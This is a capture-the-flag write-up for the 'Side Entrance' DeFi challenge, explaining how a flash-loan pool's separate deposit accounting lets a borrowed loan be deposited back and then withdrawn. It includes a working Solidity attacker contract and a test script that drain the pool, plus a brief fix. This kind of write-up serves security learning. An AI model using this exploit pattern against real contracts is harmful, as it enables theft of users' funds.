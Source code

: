 # Challenge #4 - Side Entrance

## Description

A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time.

This very simple lending pool has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.

You must take all ETH from the lending pool.

## What we have

We have 1 contract here:

1. `SideEntranceLenderPool`: Flashloan pool offering ETH. Additionally, users can affect pool's balance by depositing and withdrawing ETH.

Looking at the contract, we find these issues:

## Issues in SideEntranceLenderPool

### 1. Prone to reentrancy attack

The contract should use `ReentrancyGuard` to secure itself.

An optional issue description

## Solution

The contract seems pretty simple on the front. But one thing that stands out is how it is using two different counters for its ETH balance (one is `balances` mapping, and the other is `address(this).balance`). While a change in `balances` affects the contract's balance, the opposite is not necessarily true.

We use one such case for this exploit.

1. We take a huge loan from the contract.
2. We `deposit` it in the contract, as if we own it. The contract believes that this is new balance coming in.
3. Flashloan ends, the balance of the contract is same as before (since we deposited it back).
4. Now we use the `withdraw` method to pull out those funds. We're rich!

```ts
// solidity
pragma solidity ^0.8.0;

import "contracts/side-entrance/SideEntranceLenderPool.sol";

contract SideEntranceAttacker is IFlashLoanEtherReceiver {
    SideEntranceLenderPool internal sideEntrance;
    uint sideEntranceBalance;

    function attack(address _sideEntrance) external payable {
        sideEntrance = SideEntranceLenderPool(_sideEntrance);

        sideEntranceBalance = _sideEntrance.balance;
        sideEntrance.flashLoan(sideEntranceBalance);

        sideEntrance.withdraw();
        payable(msg.sender).call{value: address(this).balance}("");
    }

    function execute() external payable override {
        sideEntrance.deposit{value: sideEntranceBalance}();
    }

    receive() external payable {}
}

```

```ts
// test script
const AttackerFactory = await ethers.getContractFactory(
  "SideEntranceAttacker",
  attacker
);
const attackerContract = await AttackerFactory.deploy();
await attackerContract.attack(this.pool.address, {
  value: await ethers.provider.getBalance(this.pool.address),
});
```

## Probable Fix

How I would have fixed it.Adding a reentrancy guard to `deposit` would have mitigated this risk.
